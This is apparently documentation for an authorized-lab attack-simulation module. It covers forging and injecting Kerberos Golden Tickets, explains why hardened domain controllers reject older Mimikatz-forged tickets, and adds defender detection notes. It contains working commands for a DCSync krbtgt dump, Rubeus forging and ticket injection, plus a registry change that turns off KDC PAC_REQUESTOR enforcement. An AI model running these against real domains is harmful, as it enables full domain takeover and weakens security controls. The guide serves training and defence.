

# ASP12 Golden Ticket Guide | Invoke-GoldenTicketAttack


*Domain Persistence (Phase 12) — forge, validate, and inject a Golden Ticket with Rubeus, and understand why hardened Domain Controllers reject older Mimikatz-forged tickets.*



> For explicitly authorized lab environments only. Run from an initialized AS2Go module session.

---

## 1. What this workflow does

[Invoke-GoldenTicketAttack](../Private/Invoke-GoldenTicketAttack.ps1) walks through the complete Golden Ticket demonstration in three steps:

| Step | Action | Tool |
|---|---|---|
| 0 | Select the ticket identity (real AD user or randomly generated fake user) and target domain | AS2Go GUI picker |
| 1 | Dump the krbtgt hashes with DCSync (`aes256_hmac` and `Hash NTLM:` extracted from the log) | Mimikatz |
| 2 | Forge the Golden Ticket to a `.kirbi` file with Rubeus `golden` (PAC_REQUESTOR-compliant) | Rubeus |
| 2b | Validate against the KDC, then inject: `describe` → `asktgs` → `ptt` | [Import-KirbiFile](../Private/Import-KirbiFile.ps1) |
| 3 | Test: inspect cached tickets (`klist`), access `\\DC\c$`, stamp the `info` attribute of up to ten users | AS2Go |

The forged ticket is saved in the module tickets folder (`...\AS2Go\Tickets`) using Rubeus' descriptive filename format: `GT_<YYYY>_<MM>_<DD>_<HH>_<MM>_<SS>_<user>_to_<service>@<domain>.kirbi`. For example: `GT_2026_11_24_11_39_19_Master_to_krbtgt@DEMO.AS2GO.LAB.kirbi`. The filename records when the ticket was created, the represented account, and the target service. Stored hash data is kept in the DPAPI-protected `ASP07KR` setting, so [Invoke-StoredCredentialAttack](../Private/Invoke-StoredCredentialAttack.ps1) can re-run the demonstration later.

---

## 2. Why Rubeus and not Mimikatz `kerberos::golden /ptt`?

### The November 2022 KDC hardening

Since the cumulative patches for **CVE-2021-42287** (**KB5008380** on Nov 2021, enforced with **KB5020805** from **15 Nov 2022**), the KDC requires a `PAC_REQUESTOR` structure in every TGT:

- The PAC must state which principal originally requested the ticket.
- A TGT without this structure is **rejected with `KRB-ERROR (20) KDC_ERR_TGT_REVOKED`** during the next TGS-REQ.
- The rejection is logged as **Event ID 37** (source: Kerberos-Key-Distribution-Center, *System* log on the DC):

  > *"The Key Distribution Center (KDC) encountered a ticket that did not contain information about the account that requested the ticket…"*

| Forge path | PAC_REQUESTOR | Result on hardened DC |
|---|---|---|
| Mimikatz `kerberos::golden /ptt` (latest official release 2.2.0-20220919) | missing | rejected (Event 37, error 20) |
| Rubeus `golden` (current versions) | included | accepted |

That is why the AS2Go workflow forges with Rubeus, validates the ticket against the KDC **before** injecting it, and keeps the Mimikatz DCSync step for hash retrieval only.

### What Rubeus additionally gets right

- **Real domain-policy lifetimes**: instead of Mimikatz's 10-year default, Rubeus queries the domain policy — 10-hour ticket / 7-day renewable lifetime by default. This is visible in `Rubeus describe` (`EndTime`, `RenewTill`).
- **Key handling**: the key type follows the switch (`/aes256:…` preferred, `/rc4:…` fallback in AS2Go when only the NTLM hash is available).
- **KVNO**: Rubeus resolves the current Key Version Number via LDAP; Mimikatz silently defaults to `/kvno:2`, which can mismatch an actual rotated environment.

---

## 3. Ticket lifetime

Before forging the ticket, the workflow asks which validity period to use. The default is **7 days**. You can choose a custom lifetime from **8 to 365 days**. In unattended mode, the workflow uses the 7-day default. The selected lifetime is passed to Rubeus as `/endtime:<days>d`; Rubeus also applies the domain policy for the renewable lifetime.

## 4. Validation before injection (Import-KirbiFile)

`Import-KirbiFile -TicketFile <path> -Service cifs/<DC-FQDN> -DomainController <DC-FQDN>` runs one shared routine for any `.kirbi` reuse:

1. **`Rubeus describe`** — shows ticket metadata (service, user, realm, key type, lifetimes).
2. **`Rubeus asktgs`** — requests a service ticket with the forged TGT. This is a real KDC round-trip and the honest check: an `[X] KRB-ERROR` here means the DC refused the ticket; **the ticket is not injected in that case**.
   - A rejection detail like `KRB-ERROR (20): KDC_ERR_TGT_REVOKED` on a Mimikatz-forged ticket points at the missing PAC_REQUESTOR (section 2).
3. **`Rubeus ptt`** — injects after explicit confirmation and reports the expected `Kdc Called:` empty entry (section 5.1).
4. Returns `$true`/`$false`, so callers skip their follow-up steps when validation failed.

Validate-then-inject is deliberate: the KDC's verdict becomes observable *before* any cache-side effect, which is exactly what the Defender for Identity report below shows.

---

## 5. Working notes from the lab

### 5.1 `Kdc Called:` stays empty — that is normal

`klist` shows `Kdc Called` only when this machine obtained the ticket through an actual AS-REQ/TGS-REQ round-trip. An injected ticket (Rubeus `ptt`, Mimikatz `/ptt`) was pushed straight into the LSA — no KDC exchange happened, so the entry stays empty for the injected TGT. Service tickets requested *afterwards* (e.g. `dir \\DC\c$` or `Rubeus asktgs`) show the KDC again.

### 5.2 Field checklist when `KRB-ERROR (20)` appears

Work top-down; each column says what the check proves:

| Check | Command | What it proves |
|---|---|---|
| Account state (modern KDCs validate the account at TGS time) | `Get-ADUser <user> -Properties Enabled, LockedOut` | disabled/locked accounts fail at the KDC |
| Current KVNO | `Get-ADUser krbtgt -Properties msDS-KeyVersionNumber` | KVNO 1 = fresh domain, 2+ = rotated; a mismatch explains error 20 |
| Fresh key material per DC | `mimikatz "lsadump::dcsync /domain:<FQDN> /dc:<DC-FQDN> /user:<DOMAIN-SID>-502"` | stale replica diverges from the DC validating the ticket |
| Replication health | `repadmin /replsummary`, `repadmin /showrepl <DC>` | divergent krbtgt keys between DCs |
| RODC? | `Get-ADDomainController -Filter * \| Select HostName, IsReadOnly` | an RODC validates TGTs with its own `krbtgt_xxxxxx` account, never the domain KRBTGT |
| Baseline | `Rubeus asktgt /user:<user> /password:<pw> /domain:<FQDN> /dc:<DC-FQDN> /ptt` | proves the KDC itself is healthy before blaming the forge |
| Ticket content | `Rubeus describe /ticket:<kirbi>` | realm, RID/flags, key type as forged |
| Authoritative reason | KDC Event ID 37 in the DC's *System* log | the exact hardening rejection |

### 5.3 KDC logs are disabled by default

The `Microsoft-Windows-Kerberos-Key-Distribution-Center/Operational` channel is disabled out of the box, and 4768/4769 auditing is off on a default DC. Enable the channel to see rejection reasons directly:

```powershell
wevtutil sl Microsoft-Windows-Kerberos-Key-Distribution-Center/Operational /e:true
```

(Event 37 for the hardening rejection arrives in the *System* log even without this; the operational channel adds detail.)

### 5.4 The KRBTGT rotation lesson

The sibling demonstration [ASP12_Revoke.html](../Phases/ASP12_Revoke.html) rotates the KRBTGT account twice. One rotation is enough to invalidate every Golden Ticket forged with the previous key — the KDC confirms it with the same `KDC_ERR_TGT_REVOKED`. For the workshop: forge *before* the rotation, show the rejection, re-run DCSync, forge again.

---

## 6. What defenders observe (Blue Team notes)

- **Microsoft Defender for Identity** flags the attack attempt even when the KDC rejects it. A captured report of the failed attempt shows: `Kerberos tgs result: TgtRevoked`, `Golden ticket encryption type: Aes256CtsHmacSha196`, `Golden ticket inital life time: 87600 Hours`, `Golden ticket renew life time: 3650 Days`, source/impersonated account and SID, plus the targeted SPN — detection evidence *before* any access occurred.
- **Classic ticket indicators that still work**: a 10-year lifetime with a normal `Cache Flags: 0x1`, a RID that does not exist in AD (the AS2Go default forge uses `/id:6666666`), and `Kdc Called` empty for a TGT in the primary cache.
- **What hardening changed for defenders**: Rubeus-forged tickets carry realistic lifetimes and a correct PAC, so detection shifts from ticket metadata to *behavior* — missing AS-REQ behind an "initial" ticket, anomalous group sets in the PAC, and KDC-side rejections (Event 37 / 4769 failures) when older forges appear.
- **The KDC is the backstop**: the KRBTGT key remains the single secret that matters. `KDC_ERR_TGT_REVOKED` plus the double rotation is the definitive mitigation demo.

---

## 7. Command quick reference

```powershell
# Step 1 — DCSync the child-domain KRBTGT (both hashes; use the SID form to hit the right account)
.\mimikatz.exe "log as2go.log" "lsadump::dcsync /domain:CHILD.root.corp /user:<DOMAIN-SID>-502" "exit"

# Step 2 — forge with Rubeus (as AS2Go does; AES-256 preferred, /rc4: as fallback)
.\Rubeus.exe golden /user:<user> /id:<RID or 6666666> /sid:<DOMAIN-SID> /aes256:<KRBTGT_AES256> `
    /domain:<FQDN> /startoffset:-10 /endtime:7d /outfile:C:\Temp\GT_2026_11_24_11_39_19_<user>_to_krbtgt@<domain>.kirbi

# Step 2b — validate against the KDC, then inject
.\Rubeus.exe describe /ticket:C:\Temp\gt.kirbi
.\Rubeus.exe asktgs   /ticket:C:\Temp\gt.kirbi /service:cifs/<DC-FQDN> /dc:<DC-FQDN> /nowrap
.\Rubeus.exe ptt      /ticket:C:\Temp\gt.kirbi

# Step 3 — verify
klist
dir \\<DC-FQDN>\c$

# Interop escape hatch (lab only, remove afterwards — KDC restart required)
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name PacRequestorEnforcement -Value 0
Restart-Service Kdc -Force
```

`PacRequestorEnforcement = 0` disables the requestor check so Mimikatz-forged tickets are accepted again. Use it only to reproduce the failure mode in a controlled lab, and revert it immediately.

---

## 8. Related

- Phase diagram: [ASP12_GT.html](../Phases/ASP12_GT.html)
- Stored hash reuse (re-run of the same forge): [Invoke-StoredCredentialAttack.ps1](../Private/Invoke-StoredCredentialAttack.ps1)
- MITRE ATT&CK: Golden Ticket [T1558.001](https://attack.mitre.org/techniques/T1558/001/)


